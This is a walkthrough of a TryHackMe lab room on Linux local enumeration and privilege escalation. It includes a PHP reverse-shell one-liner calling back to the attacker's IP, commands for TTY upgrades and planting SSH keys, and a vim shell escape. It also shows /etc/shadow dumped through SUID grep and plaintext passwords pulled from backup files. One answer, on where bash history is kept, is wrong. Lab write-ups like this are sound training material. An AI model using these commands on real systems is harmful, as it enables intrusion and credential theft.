# Linux: Local Enumeration

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Easy
Tags: Linux
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Premium
Description:
Learn to efficiently enumerate a linux machine and identify possible weaknesses
```

Room link: [https://tryhackme.com/room/lle](https://tryhackme.com/room/lle)

## Solution

### Task 1: Introduction

Have you ever found yourself in a situation where you have no idea about "what to do after getting a reverse shell (*access to a machine*)"?

If your answer was "Yes", this room is **definitely** for you. This rooms aims at providing beginner basis in box enumeration, giving a detailed approach towards it.

Here's a list of units that are going to be covered in this room:

- Unit 1 - Stabilizing the shell
  - Exploring a way to transform a reverse shell into a stable bash or ssh shell.
- Unit 2 - Basic enumaration
  - Enumerate OS and the most common files to identify possible security flaws.
- Unit 3 - `/etc`
  - Understand the purpose and sensitivity of files under /etc directory.
- Unit 4 - Important files
  - Learn to find files, containing potentially valuable information.
- Unit 5 - Enumeration scripts
  - Automate the process by running multiple community-created enumeration scripts.

Browse to the `http://10.81.184.227:3000/` and follow the instructions.



To continue with the room material, you need to get a reverse shell using a PHP payload and a netcat listener (nc -lvnp 1234).

We start a netcat listener on port 12345.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Linux-Local_Enumeration]
└─$ nc -lvnp 12345                
listening on [any] 12345 ...

```

How reverse shells work in a nutshell:



Then we browse to `http://10.81.184.227:3000/cmd.php`:


And trigger a reverse shell with:

`php -r '$sock=fsockopen("192.168.128.58",12345);exec("/bin/sh -i <&3 >&3 2>&3");'`

Back at the netcat listener, we get a connection:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Linux-Local_Enumeration]
└─$ nc -lvnp 12345                
listening on [any] 12345 ...
connect to [192.168.128.58] from (UNKNOWN) [10.81.184.227] 51926
/bin/sh: 0: can't access tty; job control turned off
$ 
```

---------------------------------------------------------------------------

### Task 2: Unit 1 - tty

As you might have noticed, a netcat reverse shell is pretty useless and can be easily broken by simple mistakes.

In order to fix this, we need to get a 'normal' shell, aka tty (text terminal).

**Note**: Mainly, we want to upgrade to tty because commands like **su** and **sudo** require a proper terminal to run.

One of the simplest methods for that would be to execute `/bin/bash`. In most cases, it's not that easy to do and it actually requires us to do some additional work.

Surprisingly enough, we can use python to execute `/bin/bash` and upgrade to tty:  
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Generally speaking, you want to use an external tool to execute `/bin/bash` for you. While doing so, it is a good idea to try everything you know, starting from python, finishing with getting a binary on the target system.

List of static binaries you can get on the system: [github.com/andrew-d/static-binaries](http://github.com/andrew-d/static-binaries)

Try experimenting with the netcat shell you obtained in the previous task and try different versions.

Read more about upgrading to TTY: [blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys](http://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

---------------------------------------------------------------------------

#### How would you execute /bin/bash with perl?

Hint: Research! Maybe GTFOBins will give you an idea

Answer: `perl -e 'exec "/bin/bash";'`

---------------------------------------------------------------------------

### Task 3: Unit 1 - ssh

To make things even better, you should always try and get shell access to the box.

**id_rsa** file that contains a private key that can be used to connect to a box via ssh. It is usually located in the `.ssh` folder in the user's home folder. (Full path: `/home/user/.ssh/id_rsa`)

Get that file on your system and give it read/write-only permissions for your user:  
(`chmod 600 id_rsa`) and connect by executing `ssh -i id_rsa user@ip`.

In case if the target box does not have a generated **id_rsa** file (or you simply don't have reading permissions for it), you can still gain stable ssh access. All you need to do is generate your own **id_rsa** key on your system and include an associated key into **authorized_keys** file on the lab machine.

Execute `ssh-keygen` and you should see **id_rsa** and **id_rsa.pub** files appear in your own `.ssh` folder. Copy the content of the **id_rsa.pub** file and put it inside the **authorized_keys** file on the lab machine (located in `.ssh` folder). After that, connect to the machine using your **id_rsa** file.



---------------------------------------------------------------------------

#### Where can you usually find the id_rsa file? (User = user)

Answer: `/home/user/.ssh/id_rsa`

#### Is there an id_rsa file on the box? (yay/nay)

```bash
$ pwd
/home/manager/Desktop
$ cd ..
$ ls -la
total 88
drwxr-xr-x 16 manager manager 4096 Oct 25  2020 .
drwxr-xr-x  3 root    root    4096 Aug  4  2020 ..
-rw-------  1 manager manager  249 Oct 25  2020 .bash_history
-rw-r--r--  1 manager manager  220 Aug  4  2020 .bash_logout
-rw-r--r--  1 manager manager 3771 Aug  4  2020 .bashrc
drwx------ 13 manager manager 4096 Oct 25  2020 .cache
drwx------ 11 manager manager 4096 Aug  4  2020 .config
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Desktop
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Documents
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Downloads
drwx------  3 manager manager 4096 Aug  4  2020 .gnupg
drwx------  3 manager manager 4096 Aug  4  2020 .local
drwx------  5 manager manager 4096 Aug  4  2020 .mozilla
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Music
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Pictures
-rw-r--r--  1 manager manager  807 Aug  4  2020 .profile
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Public
-rw-r--r--  1 manager manager   66 Aug 24  2020 .selected_editor
drwx------  2 manager manager 4096 Aug  4  2020 .ssh
-rw-r--r--  1 manager manager    0 Aug 24  2020 .sudo_as_admin_successful
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Templates
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Videos
-rw-------  1 manager manager  583 Oct 25  2020 .viminfo
$ cd .ssh
$ ls -la
total 8
drwx------  2 manager manager 4096 Aug  4  2020 .
drwxr-xr-x 16 manager manager 4096 Oct 25  2020 ..
$ 
```

Answer: `nay`

---------------------------------------------------------------------------

### Task 4: Unit 2 - Basic enumeration

Once you get on the box, it's crucially important to do the basic enumeration. In some cases, it can save you a lot of time and provide you a shortcut into escalating your privileges to root.

**Step 1**: First, let's start with the uname command. `uname` prints information about the system.



Execute `uname -a` to print out all information about the system.

This simple box enumeration allows you to get initial information about the box, such as distro type and version. From this point you can easily look for known exploits and vulnerabilities.

**Step 2**: Next in our list are auto-generated bash files.

Bash keeps tracks of our actions by putting plaintext used commands into a history file. (`~/.bash_history`)

If you happen to have a reading permission on this file, you can easily enumerate system user's action and retrieve some sensitive infrmation. One of those would be plaintext passwords or privilege escalation methods.

**.bash_profile** and **.bashrc** are files containing shell commands that are run when Bash is invoked. These files can contain some interesting start up setting that can potentially reveal us some infromation. For example a bash alias can be pointed towards an important file or process.

**Step 3**: Next thing that you want to check is the `sudo` version.

`Sudo` command is one of the most common targets in the privilage escalation. Its version can help you identify known exploits and vulnerabilities. Execute `sudo -V` to retrieve the version.

For example, `sudo` versions < 1.8.28 are vulnerable to [CVE-2019-14287](https://nvd.nist.gov/vuln/detail/cve-2019-14287), which is a vulnerability that allows to gain root access with 1 simple command.

**Step 4**: Last part of basic enumeration comes down to using our sudo rights.

Users can be assigned to use `sudo` via `/etc/sudoers` file. It's a fully customazible file that can either limit or open access to a wider range of permissions. Run `sudo -l` to check if a user on the box is allowed to use sudo with any command on the system.



Most of the commands open us an opportunity to escalate our priviligies via simple tricks described in [GTFObins](https://gtfobins.org/#//^sudo$).

---------------------------------------------------------------------------

#### How would you print machine hardware name only?

Answer: `uname -m`

#### Where can you find bash history?

Hint: [https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Bash-History-Facilities](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Bash-History-Facilities)

Answer: `/home/user/.ssh/id_rsa`

#### What's the flag?

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
manager@py:~$ pwd
pwd
/home/manager
manager@py:~$ ls -la
ls -la
total 88
drwxr-xr-x 16 manager manager 4096 Oct 25  2020 .
drwxr-xr-x  3 root    root    4096 Aug  4  2020 ..
-rw-------  1 manager manager  249 Oct 25  2020 .bash_history
-rw-r--r--  1 manager manager  220 Aug  4  2020 .bash_logout
-rw-r--r--  1 manager manager 3771 Aug  4  2020 .bashrc
drwx------ 13 manager manager 4096 Oct 25  2020 .cache
drwx------ 11 manager manager 4096 Aug  4  2020 .config
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Desktop
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Documents
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Downloads
drwx------  3 manager manager 4096 Aug  4  2020 .gnupg
drwx------  3 manager manager 4096 Aug  4  2020 .local
drwx------  5 manager manager 4096 Aug  4  2020 .mozilla
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Music
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Pictures
-rw-r--r--  1 manager manager  807 Aug  4  2020 .profile
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Public
-rw-r--r--  1 manager manager   66 Aug 24  2020 .selected_editor
drwx------  2 manager manager 4096 Aug  4  2020 .ssh
-rw-r--r--  1 manager manager    0 Aug 24  2020 .sudo_as_admin_successful
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Templates
drwxr-xr-x  2 manager manager 4096 Aug  4  2020 Videos
-rw-------  1 manager manager  583 Oct 25  2020 .viminfo
manager@py:~$ cat .bash_history 
cat .bash_history
thm{<REDACTED>}
id
sudo -l
clear
ls
cd /root
id
exit
clear
ls
ls -la
cat .bash_history 
clear
/usr/bin/vim.basic
/usr/bin/vim.basic -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
clear
ls
clear
sudo -l
sudo su
exit
manager@py:~$ 
```

Answer: `thm{<REDACTED>}`

---------------------------------------------------------------------------

### Task 5: Unit 3 - `/etc`

Etc (etcetera) - unspecified additional items. Generally speaking, `/etc` folder is a central location for all your configuration files and it can be treated as a metaphorical nerve center of your Linux machine.

Each of the files located there has its own unique purpose that can be used to retrieve some sensitive information (such as passwords). The first thing you want to check is if you are able to read and write the files in `/etc` folder. Let's take a look at each file specifically and figure out the way you can use them for your enumeration process.

#### /etc/passwd

This file stores the most essential information, required during the user login process. (It stores user account information). It's a plain-text file that contains a list of the system's accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

Read the `/etc/passwd` file by running `cat /etc/passwd` and let's take a closer look.



Each line of this file represents a different account, created in the system. Each field is separated with a colon (:) and carries a separate value.

`goldfish:x:1003:1003:,,,:/home/goldfish:/bin/bash`

1. (goldfish) - Username
2. (x) - Password. (x character indicates that an encrypted account password is stored in `/etc/shadow` file and cannot be displayed in the plain text here)
3. (1003) - User ID (UID): Each non-root user has his own UID (1-99). UID 0 is reserved for root.
4. (1003) - Group ID (GID): Linux group ID
5. (,,,) - User ID Info: A field that contains additional info, such as phone number, name, and last name. (,,, in this case means that I did not input any additional info while creating the user)
6. (`/home/goldfish`) - Home directory: A path to user's home directory that contains all the files related to them.
7. (`/bin/bash`) - Shell or a command: Path of a command or shell that is used by the user. Simple users usually have `/bin/bash` as their shell, while services run on `/usr/sbin/nologin`.

How can this help? Well, if you have at least reading access to this file, you can easily enumerate all existing users, services and other accounts on the system. This can open a lot of vectors for you and lead to the desired root.

Otherwise, if you have writing access to the `/etc/passwd`, you can easily get root creating a custom entry with root priveleges.  
(For more info: [hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation](http://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation))

#### /etc/shadow

The `/etc/shadow` file stores actual password in an encrypted format (aka hashes) for user’s account with additional properties related to user password. Those encrypted passwords usually have a pretty similar structure, making it easy for us to identify the encoding format and crack the hash to get the password.

So, as you might have guessed, we can use `/etc/shadow` to retrieve different user passwords. In most of the situations, it is more than enough to have reading permissions on this file to escalate to root privileges.

`cat /etc/shadow`



`goldfish:$6$1FiLdnFwTwNWAqYN$WAdBGfhpwSA4y5CHGO0F2eeJpfMJAMWf6MHg7pHGaHKmrkeYdVN7fD.AQ9nptLkN7JYvJyQrfMcfmCHK34S.a/:18483:0:99999:7:::`

1. (goldfish) - Username
2. ($6$1FiLdnFwT...) - Password : Encrypted password. Basic structure: **$id$salt$hashed**, The $id is the algorithm used On GNU/Linux as follows:

- $1$ is MD5
- $2a$ is Blowfish
- $2y$ is Blowfish
- $5$ is SHA-256
- $6$ is SHA-512

3. (18483) - Last password change: Days since Jan 1, 1970 that password was last changed.
4. (0) - Minimum: The minimum number of days required between password changes (Zero means that the password can be changed immidiately).
5. (99999) - Maximum: The maximum number of days the password is valid.
6. (7) - Warn: The number of days before the user will be warned about changing their password.

What can we get from here? Well, if you have reading permissions for this file, we can crack the encrypted password using one of the cracking methods.

Just like with `/etc/passwd`, writeable permission can allow us to add a new root user by making a custom entry.

#### /etc/hosts

`/etc/hosts` is a simple text file that allows users to assign a hostname to a specific IP address. Generally speaking, a hostname is a name that is assigned to a certain device on a network. It helps to distinguish one device from another. The hostname for a computer on a home network may be anything the user wants, for example, DesktopPC or MyLaptop.

You can try editing your own `/etc/hosts` file by adding the 10.81.184.227 there like so:



From now on you'll be able to refer to the box as **box.thm**.

Why do we need it? In real-world pentesting this file may reveal a local address of devices in the same network. It can help us to enumerate the network further.

---------------------------------------------------------------------------

#### Can you read /etc/passwd on the box? (yay/nay)

```bash
manager@py:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:111:117::/nonexistent:/bin/false
kernoops:x:112:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:113:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:114:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:115:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:116:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:117:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:118:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:119:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:120:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
sshd:x:121:65534::/run/sshd:/usr/sbin/nologin
manager:x:1002:1002:,,,:/home/manager:/bin/bash
manager@py:~$ 
```

Answer: `yay`

---------------------------------------------------------------------------

### Task 6: Find command and interesting files

Since it's physically impossible to browse the whole filesystem by hand, we'll be using the `find` command for this purpose.

I advise you to get familiar with the command in [this room](https://tryhackme.com/room/thefindcommand).

The most important switches for us in our enumeration process are `-type` and `-name`.

The first one allows us to limit the search towards files only ()`-type f`) and the second one allows us to search for files by extensions using the wildcard (*).



Basically, what you want to do is to look for interesting log (`.log`) and configuration files (`.conf`). In addition to that, the system owner might be keeping backup files (`.bak`).

Here's a list of file extensions you'd usually look for: [List](https://lauraliparulo.altervista.org/most-common-linux-file-extensions/).

---------------------------------------------------------------------------

#### What's the password you found?

Hint: It's backed up

```bash
manager@py:~$ find / -type f -name *.bak 2>/dev/null           
find / -type f -name *.bak 2>/dev/null
/var/opt/passwords.bak
/var/backups/shadow.bak
/var/backups/passwd.bak
/var/backups/gshadow.bak
/var/backups/group.bak
manager@py:~$ cat /var/opt/passwords.bak
cat /var/opt/passwords.bak
THMSkidyPass
manager@py:~$ 
```

Answer: `THMSkidyPass`

#### Did you find a flag?

Hint: .conf

```bash
manager@py:~$ grep -iR 'thm{' /etc/*
grep -iR 'thm{' /etc/*
grep: /etc/alternatives/rview: No such file or directory
grep: /etc/alternatives/vim: No such file or directory
grep: /etc/alternatives/rvim: No such file or directory
grep: /etc/alternatives/view: No such file or directory
grep: /etc/alternatives/ex: No such file or directory
grep: /etc/alternatives/vi: No such file or directory
grep: /etc/alternatives/vimdiff: No such file or directory
/etc/sysconf/flag.conf:flag: thm{<REDACTED>}
manager@py:~$ 
```

Answer: `thm{<REDACTED>}`

---------------------------------------------------------------------------

### Task 7: Unit 4 - SUID

Set User ID (SUID) is a type of permission that allows users to execute a file with the permissions of another user.

Those files which have SUID permissions run with higher privileges. Assume we are accessing the target system as a non-root user and we found SUID bit enabled binaries, then those file/program/command can be run with root privileges.

SUID abuse is a common privilege escalation technique that allows us to gain root access by executing a root-owned binary with SUID enabled.

You can find all SUID file by executing this simple find command:

`find / -perm -u=s -type f 2>/dev/null`

- `-u=s` searches files that are owned by the root user.
- `-type f` search for files, not directories

After displaying all SUID files, compare them to a list on [GTFObins](https://gtfobins.org/#//^suid$) to see if there's a way to abuse them to get root access.

---------------------------------------------------------------------------

#### Which SUID binary has a way to escalate your privileges on the box?

```bash
manager@py:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/grep
/bin/mount
/bin/ping
/bin/umount
/bin/fusermount
/usr/bin/chsh
/usr/bin/arping
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chfn
<---snip--->
```

Answer: `grep`

#### What's the payload you can use to read /etc/shadow with this SUID?

```bash
manager@py:~$ grep '' /etc/shadow
grep '' /etc/shadow
root:!:18362:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
uuidd:*:17647:0:99999:7:::
avahi-autoipd:*:17647:0:99999:7:::
usbmux:*:17647:0:99999:7:::
dnsmasq:*:17647:0:99999:7:::
rtkit:*:17647:0:99999:7:::
speech-dispatcher:!:17647:0:99999:7:::
whoopsie:*:17647:0:99999:7:::
kernoops:*:17647:0:99999:7:::
saned:*:17647:0:99999:7:::
pulse:*:17647:0:99999:7:::
avahi:*:17647:0:99999:7:::
colord:*:17647:0:99999:7:::
hplip:*:17647:0:99999:7:::
geoclue:*:17647:0:99999:7:::
gnome-initial-setup:*:17647:0:99999:7:::
gdm:*:17647:0:99999:7:::
sshd:*:18362:0:99999:7:::
manager:$6$IL0a.UKt$nDPWg8EX0UKMZGJFITqSI48dmcnzww/5VgEnQHPlebWv6hoDWIg/D.qbdeewqnEYHdC.zcGduh3gG4aHb3A7m0:18478:0:99999:7:::
manager@py:~$ 
```

Answer: `grep '' /etc/shadow`

---------------------------------------------------------------------------

### Task 8: Bonus - Port Forwarding

According to Wikipedia:

> "Port forwarding is an application of network address translation (NAT) that redirects a communication request from one address and port number combination to another while the packets are traversing a network gateway, such as a router or firewall".

Port forwarding not only allows you to bypass firewalls but also gives you an opportunity to enumerate some local services and processes running on the box.

The Linux `netstat` command gives you a bunch of information about your network connections, the ports that are in use, and the processes using them. In order to see all TCP connections, execute `netstat -at | less`. This will give you a list of running processes that use TCP. From this point, you can easily enumerate running processes and gain some valuable information.

`netstat -tulpn` will provide you a much nicer output with the most interesting data.

Read more about port forwarding here: [fumenoid.github.io/posts/port-forwarding](https://fumenoid.github.io/posts/port-forwarding)

---------------------------------------------------------------------------

### Task 9: Unit 5 - Automating scripts

Even though I, personally, dislike any automatic enumeration scripts, they are really important to the privilege escalation process as they help you to omit the 'human error' in your enum process.

#### Linpeas

LinPEAS - Linux local Privilege Escalation Awesome Script (.sh) is a script that searches for possible paths to escalate privileges on Linux/ hosts.



Linpeas automatically searches for passwords, SUID files and Sudo right abuse to hint you on your way towards root.

They are different ways of getting the script on the box, but the most reliable one would be to first download the script on your system and then transfer it on the target.



`wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh`

After that, you get a nice output with all the vulnerable parts marked.

#### LinEnum

The second tool on our list is LinEnum. It performs 'Scripted Local Linux Enumeration & Privilege Escalation Checks' and appears to be a bit easier than linpeas.

You can get the script by running:

